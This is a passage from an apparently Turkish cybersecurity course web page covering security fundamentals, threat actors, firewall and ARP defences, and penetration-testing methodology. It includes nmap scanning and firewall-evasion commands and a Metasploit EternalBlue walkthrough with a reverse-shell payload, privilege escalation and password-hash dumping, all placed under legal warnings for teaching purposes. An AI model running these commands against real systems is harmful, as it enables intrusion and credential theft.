          <div class="stat-label">İnsan Faktörü İçeren Veri İhlalleri</div>
        </div>
        <div class="stat-card">
          <span class="stat-number">277 Gün</span>
          <div class="stat-label">Ortalama Tespit Süresi (Veri İhlali)</div>
        </div>
        <div class="stat-card">
          <span class="stat-number">3.5M</span>
          <div class="stat-label">Küresel Siber Güvenlik Açık Pozisyon</div>
        </div>
      </div>

      <h2>1.2 CIA Üçgeni: Güvenliğin Temel Eksenleri</h2>
      <p>Siber güvenliğin teorik çerçevesinin temelinde <span class="key-term">CIA Üçgeni</span> yer almaktadır. Bu
        üçgen; bilgi güvenliğinin üç temel hedefini sembolize eder:</p>

      <div class="callout" data-label="Temel Kavram">
        <p><strong style="color:var(--gold);">Confidentiality (Gizlilik):</strong> Bilgiye yalnızca yetkili kişilerin
          erişebilmesi ilkesidir. Şifreleme, erişim kontrol listeleri (ACL) ve çok faktörlü kimlik doğrulama (MFA) bu
          hedefi destekleyen başlıca mekanizmalardır.</p>
        <p><strong style="color:var(--gold);">Integrity (Bütünlük):</strong> Verinin yetkisiz kişiler tarafından
          değiştirilmemesi ve kaynağından hedefe doğru bozulmadan ulaşması ilkesidir. Hash fonksiyonları, dijital
          imzalar ve dosya bütünlüğü izleme araçları (FIM) bu amaca hizmet eder.</p>
        <p><strong style="color:var(--gold);">Availability (Erişilebilirlik):</strong> Yetkili kullanıcıların ihtiyaç
          duydukları anda bilgiye ve sistemlere erişebilmesini güvence altına almaktır. DDoS saldırıları, bu hedefi
          doğrudan tehdit eden en yaygın saldırı türlerinden birini oluşturur.</p>
      </div>

      <p>Bazı modern güvenlik çerçeveleri CIA Üçgeni'ni genişleterek <span class="key-term">Authenticity
          (Özgünlük)</span> ve <span class="key-term">Non-repudiation (İnkâr Edememe)</span> kavramlarını da modele
        dahil etmektedir. İnkâr edememe; bir tarafın gerçekleştirdiği işlemi sonradan reddetmesini engelleyen
        kriptografik mekanizmaları kapsar ve özellikle dijital hukuk alanında kritik önem taşır.</p>

      <h2>1.3 Tehdit, Güvenlik Açığı ve Risk Kavramları</h2>
      <p>Bu üç kavram; siber güvenlik literatüründe sıklıkla birbirinin yerine kullanılsa da aralarında önemli nüanslar
        bulunmaktadır:</p>

      <table>
        <thead>
          <tr>
            <th>Kavram</th>
            <th>Tanım</th>
            <th>Örnek</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td><strong style="color:var(--gold);">Tehdit (Threat)</strong></td>
            <td>Sistemlere zarar verebilecek potansiyel olay veya aktör</td>
            <td>Fidye yazılımı, APT grubu, iç tehdit</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Güvenlik Açığı (Vulnerability)</strong></td>
            <td>Sistemdeki tehditin sömürebileceği zayıflık</td>
            <td>Yama uygulanmamış CVE, yanlış yapılandırma</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Risk</strong></td>
            <td>Tehdit × Güvenlik Açığı × Etki değerinin bileşkesi</td>
            <td>Kritik veri kaybı olasılığı ve finansal etkisi</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Exploit</strong></td>
            <td>Güvenlik açığını sömürmek için kullanılan kod/teknik</td>
            <td>Buffer overflow exploit, PoC kodu</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Zero-Day</strong></td>
            <td>Henüz üretici tarafından bilinmeyen güvenlik açığı</td>
            <td>Stuxnet'te kullanılan 4 adet 0-day</td>
          </tr>
        </tbody>
      </table>

      <h2>1.4 Tehdit Aktörleri: Kim, Neden ve Nasıl?</h2>
      <p>Siber tehdit ortamını anlamak için farklı tehdit aktörü kategorilerini ve motivasyonlarını kavramak şarttır.
        Her aktör türü; farklı beceri seviyelerine, kaynaklara ve hedeflere sahiptir:</p>

      <h3>1.4.1 Script Kiddies</h3>
      <p>Genellikle teknik bilgi düzeyi düşük, hazır araç ve exploit kitleri kullanan amatör saldırganlardır. Hedef
        seçiminde planlama yerine fırsatçı bir yaklaşım benimserler. Zararlı etkileri çoğunlukla sınırlı olsa da yaygın
        ve yüksek hacimli saldırılar gerçekleştirebilirler.</p>

      <h3>1.4.2 Hacktivistler</h3>
      <p>Siyasi, sosyal veya ideolojik motivasyonlarla hareket eden bu grup; DDoS saldırıları, web sitesi tahribatları
        (defacement) ve veri sızıntıları gibi yöntemlere başvurur. Anonymous ve LulzSec tarihsel örnekler arasında
        sayılabilir. Hacktivistlerin yetenekleri grup içindeki bireysel üyelere göre büyük farklılıklar gösterebilir.
      </p>

      <h3>1.4.3 Organize Suç Örgütleri</h3>
      <p>Finansal kazanç odaklı bu gruplar; fidye yazılımı (ransomware), banka dolandırıcılığı, kimlik hırsızlığı ve
        kara para aklama gibi siber suç faaliyetleri yürütür. REvil, Conti ve LockBit gibi fidye yazılımı grupları bu
        kategorinin en tanınmış örnekleridir. Hizmet Olarak Fidye Yazılımı (RaaS) modeli bu grupların örgütlenme
        biçimini köklü biçimde değiştirmiştir.</p>

      <h3>1.4.4 Devlet Destekli Tehdit Aktörleri (APT Grupları)</h3>
      <p>Gelişmiş Kalıcı Tehditler (Advanced Persistent Threats — APT); en sofistike ve tehlikeli kategoriyi oluşturur.
        Devlet finansmanı ve desteğiyle faaliyet gösteren bu gruplar; uzun vadeli hedefler doğrultusunda planlı, sabırlı
        ve çok aşamalı saldırılar gerçekleştirir. Siber casusluk, kritik altyapı sabotajı ve jeopolitik amaçlı
        operasyonlar bu grubun temel faaliyet alanlarıdır.</p>

      <table>
        <thead>
          <tr>
            <th>APT Grubu</th>
            <th>Kaynak Ülke (Atıf)</th>
            <th>Hedef Sektörler</th>
            <th>Kullandığı Teknikler</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td>APT28 (Fancy Bear)</td>
            <td>Rusya</td>
            <td>Savunma, Hükümet, Medya</td>
            <td>Spear-phishing, 0-day, Credential theft</td>
          </tr>
          <tr>
            <td>APT29 (Cozy Bear)</td>
            <td>Rusya</td>
            <td>Hükümet, Think-tank, IT</td>
            <td>Supply chain saldırısı, Living-off-the-land</td>
          </tr>
          <tr>
            <td>Lazarus Group</td>
            <td>Kuzey Kore</td>
            <td>Finans, Kripto, Savunma</td>
            <td>Spear-phishing, Custom implant</td>
          </tr>
          <tr>
            <td>APT41</td>
            <td>Çin</td>
            <td>Sağlık, Telekomünikasyon</td>
            <td>Supply chain, Watering hole</td>
          </tr>
          <tr>
            <td>Charming Kitten</td>
            <td>İran</td>
            <td>Akademi, Medya, Aktivistler</td>
            <td>Sosyal mühendislik, Credential phishing</td>
          </tr>
        </tbody>
      </table>

      <h2>1.5 Saldırı Yüzeyi Yönetimi (Attack Surface Management)</h2>
      <p>Saldırı yüzeyi; bir sisteme yetkisiz erişim sağlamak amacıyla kullanılabilecek tüm potansiyel giriş
        noktalarının bütününü ifade eder. Dijital dönüşüm ve bulut adoptasyonu bu yüzeyi dramatik biçimde
        genişletmiştir. Etkili bir güvenlik programı; saldırı yüzeyinin sürekli keşfedilmesini, envanterinin
        çıkarılmasını, risk önceliklendirilmesini ve azaltılmasını kapsar.</p>

      <div class="phase-timeline">
        <div class="phase-item">
          <div class="phase-label">Keşif (Discovery)</div>
          <p>Tüm dijital varlıkların ve bunlara bağlantılı sistemlerin tespit edilmesi. Bilinmeyen alt alan adları,
            unutulmuş API uç noktaları ve shadow IT bu aşamanın kritik hedeflerini oluşturur.</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">Envanter (Inventory)</div>
          <p>Keşfedilen varlıkların sınıflandırılması, kritiklik düzeylerinin belirlenmesi ve CMDB (Configuration
            Management Database) ile entegrasyonu.</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">Risk Değerlendirmesi</div>
          <p>Her varlık için güvenlik açığı taraması, sömürülebilirlik analizi ve iş etkisi değerlendirmesinin
            yapılması; CVSS skorlarının iş bağlamıyla harmanlanması.</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">Azaltma (Remediation)</div>
          <p>Yama yönetimi, yapılandırma sertleştirme (hardening), gereksiz yüzeylerin kapatılması ve sürekli izleme
            mekanizmalarının devreye alınması.</p>
        </div>
      </div>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 2: AĞ GÜVENLİĞİ
══════════════════════════════════════════════════════ -->
    <section id="ch2" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Ağ Güvenliği:<br>Protokollerden Savunma Mimarisine</h1>
      <p class="chapter-lead">
        Ağ güvenliği; veri iletim altyapısının yetkisiz erişimlere, saldırılara ve bozulmalara karşı korunmasını
        kapsayan kapsamlı bir disiplindir. Bu bölümde ağ protokollerinin güvenlik boyutunu, savunma araçlarını ve mimari
        tasarım prensiplerini inceliyoruz.
      </p>

      <div class="gold-rule"></div>

      <h2>2.1 OSI Modeli ve Güvenlik Perspektifi</h2>
      <p>OSI (Open Systems Interconnection) modeli; ağ iletişimini yedi katmana ayırarak her katmanın bağımsız protokol
        ve sorumluluklarla tanımlandığı referans bir çerçeve sunar. Güvenlik profesyonelleri açısından bu model;
        saldırıların hangi katmanda gerçekleştiğini ve savunma mekanizmalarının nereye konuşlandırılması gerektiğini
        anlamak için vazgeçilmez bir rehberdir.</p>

      <table>
        <thead>
          <tr>
            <th>Katman</th>
            <th>İsim</th>
            <th>Protokoller</th>
            <th>Güvenlik Tehditleri</th>
            <th>Savunma Mekanizmaları</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td>7</td>
            <td>Uygulama</td>
            <td>HTTP, FTP, DNS, SMTP</td>
            <td>SQLi, XSS, Phishing</td>
            <td>WAF, Uygulama güvenlik duvarı</td>
          </tr>
          <tr>
            <td>6</td>
            <td>Sunum</td>
            <td>SSL/TLS, JPEG, MPEG</td>
            <td>SSL stripping, Kötü amaçlı içerik</td>
            <td>Güçlü şifreleme, Sertifika doğrulama</td>
          </tr>
          <tr>
            <td>5</td>
            <td>Oturum</td>
            <td>NetBIOS, RPC</td>
            <td>Session hijacking, Token çalma</td>
            <td>Oturum yönetimi, Timeout politikaları</td>
          </tr>
          <tr>
            <td>4</td>
            <td>Taşıma</td>
            <td>TCP, UDP</td>
            <td>SYN flood, Port tarama</td>
            <td>Firewall, Rate limiting</td>
          </tr>
          <tr>
            <td>3</td>
            <td>Ağ</td>
            <td>IP, ICMP, OSPF</td>
            <td>IP spoofing, Routing saldırıları</td>
            <td>ACL, Anti-spoofing filtreleri</td>
          </tr>
          <tr>
            <td>2</td>
            <td>Veri Bağlantısı</td>
            <td>Ethernet, ARP, STP</td>
            <td>ARP poisoning, MAC flooding</td>
            <td>Dynamic ARP inspection, Port security</td>
          </tr>
          <tr>
            <td>1</td>
            <td>Fiziksel</td>
            <td>Ethernet kabloları, Fiber</td>
            <td>Fiziksel erişim, Kablo dinleme</td>
            <td>Fiziksel erişim kontrolü, Ekranlı kablo</td>
          </tr>
        </tbody>
      </table>

      <h2>2.2 Güvenlik Duvarları (Firewall) Mimarisi</h2>
      <p>Güvenlik duvarları; ağ trafiğini önceden tanımlanmış kurallar bütününe göre izleyen ve filtreleyen ağ güvenliği
        cihazları ya da yazılımlardır. Paket filtrelemeden başlayan evrimleri; durum bilgili (stateful) inceleme, devre
        düzeyi geçit (circuit-level gateway) ve uygulama katmanı güvenlik duvarı (next-generation firewall)
        aşamalarından geçerek günümüzün yapay zekâ destekli platformlarına ulaşmıştır.</p>

      <h3>2.2.1 Nesil Güvenlik Duvarları (NGFW)</h3>
      <p>Yeni Nesil Güvenlik Duvarları (NGFW); geleneksel port/protokol filtrelemesinin ötesine geçerek derin paket
        inceleme (DPI), SSL/TLS incelemesi, uygulama tanımlama, kullanıcı kimliği farkındalığı ve entegre IDS/IPS
        yeteneklerini tek bir platformda bir araya getirir. Palo Alto Networks, Fortinet FortiGate ve Check Point
        platformları bu kategorinin önde gelen ürünleridir.</p>

      <div class="callout" data-label="Yapılandırma Örneği">
        <p style="margin-bottom:0.5rem; font-family:'Cinzel',serif; font-size:0.8rem; color:var(--gold);">Temel Firewall
          Kural Mantığı (iptables — Linux)</p>
        <pre><code># Gelen trafiği varsayılan olarak reddet
iptables -P INPUT DROP
iptables -P FORWARD DROP

# Giden trafiğe izin ver
iptables -P OUTPUT ACCEPT

# Loopback arayüzüne izin ver
iptables -A INPUT -i lo -j ACCEPT

# Kurulu/ilgili bağlantılara izin ver
iptables -A INPUT -m state --state ESTABLISHED,RELATED -j ACCEPT

# SSH erişimine yalnızca belirli IP'den izin ver
iptables -A INPUT -p tcp --dport 22 -s 192.168.1.100 -j ACCEPT

# HTTP ve HTTPS trafiğine izin ver
iptables -A INPUT -p tcp --dport 80 -j ACCEPT
iptables -A INPUT -p tcp --dport 443 -j ACCEPT

# SYN flood koruması (rate limiting)
iptables -A INPUT -p tcp --syn -m limit --limit 1/s --limit-burst 4 -j ACCEPT

# Kural setini kaydet
iptables-save > /etc/iptables/rules.v4</code></pre>
      </div>

      <h2>2.3 IDS/IPS: İzinsiz Giriş Tespit ve Önleme Sistemleri</h2>
      <p>Saldırı tespit sistemleri (IDS) ve saldırı önleme sistemleri (IPS); ağ trafiğini ya da sistem davranışını
        analiz ederek şüpheli veya kötü amaçlı etkinlikleri tespit eden güvenlik araçlarıdır. IDS pasif bir yapıya sahip
        olup yalnızca uyarı üretirken, IPS saldırıyı aktif olarak engelleme kapasitesine sahiptir.</p>

      <h3>2.3.1 İmza Tabanlı vs. Anomali Tabanlı Tespit</h3>
      <p><span class="key-term">İmza tabanlı tespit</span>; bilinen saldırı kalıplarının veritabanına dayanan bir
        yaklaşımdır. Yüksek doğruluk oranı ve düşük yanlış pozitif üretme avantajına sahipken, sıfır gün saldırılarına
        karşı kör noktası bulunur. <span class="key-term">Anomali tabanlı tespit</span> ise normal davranışın
        istatistiksel bir modelini oluşturarak sapmaları tespit eder. Bilinmeyen tehditlere karşı etkili olmakla
        birlikte, daha yüksek yanlış pozitif oranıyla başa çıkılması gerektirir.</p>

      <p>Modern platformlar bu iki yaklaşımı makine öğrenimi ile harmanlayan hibrit bir model benimsemektedir. Snort,
        Suricata ve Zeek (eski adıyla Bro) açık kaynaklı IDS/IPS çözümleri arasında en yaygın kullanılanlarıdır.</p>

      <h2>2.4 VPN ve Güvenli Tünel Teknolojileri</h2>
      <p>Sanal Özel Ağlar (VPN); kamusal ağlar üzerinden şifreli tünel oluşturarak güvenli iletişim sağlayan
        teknolojidir. Uzaktan çalışma modellerinin yaygınlaşmasıyla VPN kullanımı kurumsal ortamlarda kritik bir altyapı
        unsuru haline gelmiştir. Ancak VPN'lerin de kendine özgü güvenlik riskleri taşıdığı göz ardı edilmemelidir:
        Yanlış yapılandırılmış VPN sunucuları, güncellenmemiş VPN yazılımları ve zayıf kimlik doğrulama mekanizmaları,
        saldırganlar için cazip hedefler oluşturur.</p>

      <h3>2.4.1 VPN Protokolleri Karşılaştırması</h3>
      <table>
        <thead>
          <tr>
            <th>Protokol</th>
            <th>Şifreleme</th>
            <th>Hız</th>
            <th>Güvenlik</th>
            <th>Kullanım Alanı</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td>OpenVPN</td>
            <td>AES-256, TLS</td>
            <td>Orta</td>
            <td>Yüksek</td>
            <td>Kurumsal, uzaktan erişim</td>
          </tr>
          <tr>
            <td>WireGuard</td>
            <td>ChaCha20, Poly1305</td>
            <td>Çok Yüksek</td>
            <td>Yüksek</td>
            <td>Modern, hafif senaryolar</td>
          </tr>
          <tr>
            <td>IPSec/IKEv2</td>
            <td>AES-256, SHA-2</td>
            <td>Yüksek</td>
            <td>Yüksek</td>
            <td>Site-to-site, mobil</td>
          </tr>
          <tr>
            <td>L2TP/IPSec</td>
            <td>AES-256</td>
            <td>Orta</td>
            <td>Orta</td>
            <td>Eski sistemler</td>
          </tr>
          <tr>
            <td>PPTP</td>
            <td>MPPE (zayıf)</td>
            <td>Yüksek</td>
            <td>Düşük</td>
            <td>ÖNERİLMEZ</td>
          </tr>
        </tbody>
      </table>

      <h2>2.5 Ağ Segmentasyonu ve DMZ Mimarisi</h2>
      <p>Ağ segmentasyonu; bir kurumun ağını daha küçük, izole bölgelere ayırarak saldırganların yanal hareketini
        (lateral movement) kısıtlayan temel bir savunma stratejisidir. Bir saldırgan bir segmente sızdığında,
        segmentasyon bu segmentten diğerlerine yayılmasını zorlaştırır ya da önler.</p>

      <p><span class="key-term">DMZ (Demilitarized Zone)</span>; internete açık sunucuların (web, mail, DNS) iç ağdan
        izole biçimde konuşlandırıldığı bir ara güvenlik bölgesidir. Klasik DMZ mimarisinde iki güvenlik duvarı katmanı
        arasında konumlanan bu bölge; dışarıdan gelen trafiği iç ağa doğrudan ulaşmadan karşılar.</p>

      <div class="callout" data-label="Tasarım Prensibi">
        <p><strong style="color:var(--gold);">En Az Ayrıcalık (Principle of Least Privilege):</strong> Her sistem
          bileşeni, kullanıcı hesabı veya süreç; yalnızca görevini yerine getirmek için zorunlu olan minimum yetkiye
          sahip olmalıdır. Bu prensip; olası bir ihlalde hasarın kontrol altında tutulmasının temel güvencesidir.</p>
      </div>

      <h2>2.6 Yaygın Ağ Saldırıları ve Savunma Yöntemleri</h2>

      <h3>2.6.1 ARP Zehirlenmesi (ARP Poisoning)</h3>
      <p>ARP (Address Resolution Protocol) zehirlenmesi; saldırganın ağ üzerindeki ARP önbelleğini tahrip ederek trafiği
        kendi üzerinden geçirdiği bir Ortadaki Adam (MitM — Man-in-the-Middle) saldırısıdır. Yerel ağ saldırıları
        arasında en yaygın kullanılanlardan biridir.</p>

      <pre><code># Savunma — Dynamic ARP Inspection (DAI) — Cisco Switch
Switch(config)# ip dhcp snooping
Switch(config)# ip dhcp snooping vlan 10,20
Switch(config)# ip arp inspection vlan 10,20
Switch(config-if)# ip arp inspection trust  # Güvenilir portlarda</code></pre>

      <h3>2.6.2 DNS Spoofing ve DNSSEC</h3>
      <p>DNS sahteciliği; DNS çözümleme sürecini manipüle ederek kullanıcıları meşru adresler yerine zararlı sunuculara
        yönlendiren bir saldırı türüdür. DNSSEC (DNS Security Extensions); dijital imzalar kullanarak DNS yanıtlarının
        bütünlüğünü ve kaynağını doğrulayan kriptografik bir uzantıdır.</p>

      <h3>2.6.3 DDoS Saldırıları ve Mitigasyon</h3>
      <p>Dağıtık Hizmet Reddi (DDoS) saldırıları; hedef sistemi aşırı trafikle bunaltarak meşru kullanıcıların hizmete
        erişimini engellemeyi amaçlar. Volumetrik saldırılar, protokol saldırıları ve uygulama katmanı (Layer 7)
        saldırıları olmak üzere üç ana kategoride incelenir. BGP Anycast, trafik scrubbing merkezleri ve Content
        Delivery Network (CDN) çözümleri DDoS mitigasyonunun temel araçlarıdır.</p>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 3: SIZMA TESTİ
══════════════════════════════════════════════════════ -->
    <section id="ch3" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Sızma Testi (Penetration Testing)<br>Metodolojisi</h1>
      <p class="chapter-lead">
        Sızma testi; bir sistemin, ağın veya uygulamanın güvenlik zayıflıklarını keşfetmek amacıyla saldırganın bakış
        açısıyla yapılan yetkili güvenlik değerlendirmesidir. Etik hackerların kullandığı metodoloji ve araçları
        derinlemesine inceliyoruz.
      </p>

      <div class="gold-rule"></div>

      <div class="warning-stripe">
        ⚠️ YASAL UYARI: Bu bölümde anlatılan teknikler yalnızca yazılı yetki alınmış sistemlerde uygulanabilir. Yetkisiz
        sızma testi girişimleri Türkiye'de TCK 243-245. maddeleri kapsamında ağır yaptırımlarla sonuçlanır. Tüm test
        faaliyetleri yasal çerçevede yürütülmelidir.
      </div>

      <h2>3.1 Sızma Testi Türleri</h2>
      <p>Sızma testleri; test kapsamına, bilgi düzeyine ve hedef sisteme göre farklı kategorilere ayrılır:</p>

      <table>
        <thead>
          <tr>
            <th>Test Türü</th>
            <th>Bilgi Düzeyi</th>
            <th>Kapsam</th>
            <th>Avantaj</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td><strong style="color:var(--gold);">Black Box</strong></td>
            <td>Sıfır iç bilgi</td>
            <td>Dışarıdan saldırı simülasyonu</td>
            <td>Gerçek saldırgan perspektifi</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">White Box</strong></td>
            <td>Tam erişim (kaynak kodu, mimari)</td>
            <td>İç sistem analizi</td>
            <td>Kapsamlı güvenlik açığı tespiti</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Gray Box</strong></td>
            <td>Kısmi bilgi</td>
            <td>Hibrit yaklaşım</td>
            <td>Verimlilik-gerçekçilik dengesi</td>
          </tr>
          <tr>
            <td><strong style="color:var(--gold);">Red Team</strong></td>
            <td>Minimal (senaryo bağımlı)</td>
            <td>Tam kapsamlı adversary simulation</td>
            <td>APT davranış simülasyonu</td>
          </tr>
        </tbody>
      </table>

      <h2>3.2 Metodoloji Çerçeveleri</h2>

      <h3>3.2.1 PTES (Penetration Testing Execution Standard)</h3>
      <p>PTES; sızma testinin standardize bir çerçevede yürütülmesi için geliştirilmiş kapsamlı bir metodoloji
        belgesidir. Yedi aşamadan oluşur:</p>

      <div class="phase-timeline">
        <div class="phase-item">
          <div class="phase-label">1. Ön Etkileşim (Pre-engagement)</div>
          <p>Kapsam belirleme, yasal sözleşme imzalama, hedef tanımlama ve iletişim protokollerinin oluşturulması. Bu
            aşama, her şeyden önce gelir.</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">2. İstihbarat Toplama (Intelligence Gathering)</div>
          <p>OSINT, pasif keşif, aktif keşif ve teknik bilgi toplama faaliyetleri. Hedef hakkında mümkün olan en
            kapsamlı bilginin derlenmesi.</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">3. Tehdit Modelleme (Threat Modeling)</div>
          <p>Toplanan istihbarata dayanarak olası saldırı vektörlerinin ve tehdit aktörü profillerinin belirlenmesi.</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">4. Güvenlik Açığı Analizi</div>
          <p>Otomatik tarayıcılar ve manuel tekniklerle güvenlik zayıflıklarının tespiti ve sınıflandırılması.</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">5. Sömürü (Exploitation)</div>
          <p>Tespit edilen güvenlik açıklarının gerçek dünya etkisini kanıtlamak için sömürülmesi; sistem erişimi veya
            veri elde edilmesi.</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">6. Sömürü Sonrası (Post-Exploitation)</div>
          <p>Ayrıcalık yükseltme, yanal hareket, kalıcılık sağlama ve veri sızdırma senaryolarının test edilmesi.</p>
        </div>
        <div class="phase-item">
          <div class="phase-label">7. Raporlama</div>
          <p>Yönetici özeti, teknik bulgular, risk sınıflandırması ve önceliklendirilmiş iyileştirme önerileri içeren
            kapsamlı raporun hazırlanması.</p>
        </div>
      </div>

      <h2>3.3 Keşif Aşaması: Pasif ve Aktif Teknikler</h2>

      <h3>3.3.1 Pasif Keşif</h3>
      <p>Pasif keşif; hedef sistemlerle doğrudan etkileşime girmeden kamuya açık kaynaklardan bilgi toplama sürecidir.
        İz bırakmama özelliği bu aşamanın en önemli avantajıdır.</p>

      <pre><code># WHOIS sorgusu
whois hedef.com

# DNS numaralandırma
nslookup -type=ANY hedef.com
dig ANY hedef.com @8.8.8.8

# Subdomain keşfi — Passive (Amass)
amass enum -passive -d hedef.com

# Shodan CLI ile internet yüzü
shodan search "org:TargetOrg" --fields ip_str,port,org
shodan host 1.2.3.4

# theHarvester ile e-posta ve subdomain
theHarvester -d hedef.com -b google,bing,linkedin,shodan -l 200</code></pre>

      <h3>3.3.2 Aktif Keşif: Nmap ile Ağ Taraması</h3>
      <p>Nmap (Network Mapper); ağ keşfi ve güvenlik denetimi için endüstri standardı olan açık kaynaklı bir araçtır.
        Port tarama, servis sürümü tespiti, işletim sistemi parmak izi ve NSE (Nmap Scripting Engine) scriptleriyle
        olağanüstü esneklik sunar.</p>

      <pre><code># Temel port tarama
nmap -sV -sC -O hedef.com

# Tam port taraması (tüm 65535 port)
nmap -p- --min-rate 5000 hedef.com

# Stealth SYN taraması
nmap -sS -T2 hedef.com

# UDP tarama (yavaş ama kritik)
nmap -sU -p 53,67,68,123,161,162 hedef.com

# NSE ile güvenlik açığı taraması
nmap --script vuln hedef.com

# Çıktıyı kaydet (tüm formatlar)
nmap -sV -sC -p- -oA tam_tarama hedef.com

# Firewall atlatma teknikleri
nmap -f -D RND:5 hedef.com  # Fragmented paket, decoy
nmap --source-port 53 hedef.com  # Port 53'ten tarama</code></pre>

      <h2>3.4 Metasploit Framework ile Exploitation</h2>
      <p>Metasploit Framework; penetrasyon testçilerinin ve güvenlik araştırmacılarının exploit geliştirmek, test etmek
        ve yürütmek için kullandığı açık kaynaklı bir güvenlik platformudur. 1000'den fazla exploit modülü, 600'den
        fazla payload ve kapsamlı post-exploitation özellikleriyle dünya genelinde en yaygın kullanılan sızma testi
        çerçevesidir.</p>

      <pre><code># Metasploit başlatma
msfconsole

# MS17-010 (EternalBlue) — SMB güvenlik açığı örneği
msf6 > search eternalblue
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(ms17_010_eternalblue) > set RHOSTS 192.168.1.50
msf6 exploit(ms17_010_eternalblue) > set LHOST 192.168.1.10
msf6 exploit(ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(ms17_010_eternalblue) > exploit

# Meterpreter post-exploitation
meterpreter > sysinfo
meterpreter > getuid
meterpreter > getsystem          # Ayrıcalık yükseltme
meterpreter > hashdump           # Şifre hash'leri
meterpreter > run post/multi/gather/enum_system  # Sistem bilgisi toplama
meterpreter > upload /path/to/tool.exe C:\\Windows\\Temp\\
meterpreter > shell</code></pre>

      <div class="callout-danger callout" data-label="Etik Uyarı">
        Yukarıdaki komutlar yalnızca izole laboratuvar ortamlarında ve yazılı yetki ile belgelenmiş test kapsamında
        kullanılabilir. Gerçek sistemlere uygulanması yasadışıdır.
      </div>

      <h2>3.5 Sızma Testi Raporu Yazımı</h2>
      <p>Teknik yetkinlik ne kadar üstün olursa olsun, bulgular etkili biçimde raporlanmadığında değer üretmez. İyi bir
        sızma testi raporu; teknik bulguları hem güvenlik uzmanlarına hem de C-suite yöneticilere anlaşılır biçimde
        aktarabilmelidir.</p>

      <h3>Rapor Yapısı</h3>
      <ol>
        <li><strong style="color:var(--gold);">Yönetici Özeti:</strong> Teknik detaydan arındırılmış, iş riski odaklı
          üst düzey özet</li>
        <li><strong style="color:var(--gold);">Metodoloji:</strong> Kullanılan çerçeve, araçlar ve test kapsamı</li>
        <li><strong style="color:var(--gold);">Bulgular Özeti:</strong> Risk seviyesine göre gruplandırılmış bulgu
          matrisi</li>
        <li><strong style="color:var(--gold);">Teknik Bulgular:</strong> Her bulgu için açıklama, etki, kanıt ve
          iyileştirme adımları</li>
        <li><strong style="color:var(--gold);">İyileştirme Yol Haritası:</strong> Önceliklendirilmiş aksiyon planı ve
          sorumluluk matrisi</li>
        <li><strong style="color:var(--gold);">Ekler:</strong> Ham tarama çıktıları, exploit kanıtları, referans
          kaynaklar</li>
      </ol>

      <div class="chapter-sig">
        <span>Yazar:</span>
        <span class="chapter-sig-name">Toprak Ahmet Aydoğmuş</span>
        <span>|</span>
        <span>toprakahmetaydogmus0@gmail.com</span>
        <span>|</span>
        <span>Siber Akademi</span>
      </div>
    </section>

    <!-- ══════════════════════════════════════════════════════
     BÖLÜM 4: WEB UYGULAMA GÜVENLİĞİ
══════════════════════════════════════════════════════ -->
    <section id="ch4" class="chapter">
      <span class="chapter-num"></span>
      <h1 class="chapter-title">Web Uygulama Güvenliği</h1>
      <p class="chapter-lead">
        Web uygulamaları; modern kurumsal altyapının en kritik ve en sık saldırıya uğrayan bileşenlerinden birini
        oluşturmaktadır. OWASP Top 10'dan başlayarak en yaygın güvenlik açıklarını ve koruma yöntemlerini ele alıyoruz.
      </p>

      <div class="gold-rule"></div>

      <h2>4.1 OWASP Top 10 (2021)</h2>
      <p>OWASP (Open Web Application Security Project) Top 10; web uygulamalarında en kritik güvenlik risklerini
        tanımlayan ve dünya genelinde referans alınan bir belgedir. 2021 versiyonu şu kategorileri kapsar:</p>

      <table>
        <thead>
          <tr>
            <th>#</th>
            <th>Risk</th>
            <th>Etki</th>
            <th>Önlem</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td>A01</td>
            <td>Broken Access Control</td>
            <td>Kritik</td>
            <td>RBAC, En az ayrıcalık, Merkezi yetkilendirme</td>
          </tr>
          <tr>
            <td>A02</td>
            <td>Cryptographic Failures</td>
            <td>Kritik</td>
            <td>Güçlü şifreleme, TLS zorunluluğu</td>
          </tr>
          <tr>
            <td>A03</td>
            <td>Injection (SQLi, LDAPi, OS)</td>
            <td>Kritik</td>
            <td>Parameterized queries, WAF</td>
          </tr>
          <tr>
            <td>A04</td>
            <td>Insecure Design</td>
            <td>Yüksek</td>
            <td>Threat modeling, Güvenli tasarım prensipleri</td>
          </tr>
          <tr>
            <td>A05</td>
            <td>Security Misconfiguration</td>
            <td>Yüksek</td>
            <td>Sertleştirme kılavuzları, Konfigürasyon yönetimi</td>
          </tr>
          <tr>
            <td>A06</td>
            <td>Vulnerable Components</td>
            <td>Yüksek</td>
            <td>SCA araçları, Yama yönetimi</td>
          </tr>
          <tr>
            <td>A07</td>
            <td>Auth & Identification Failures</td>
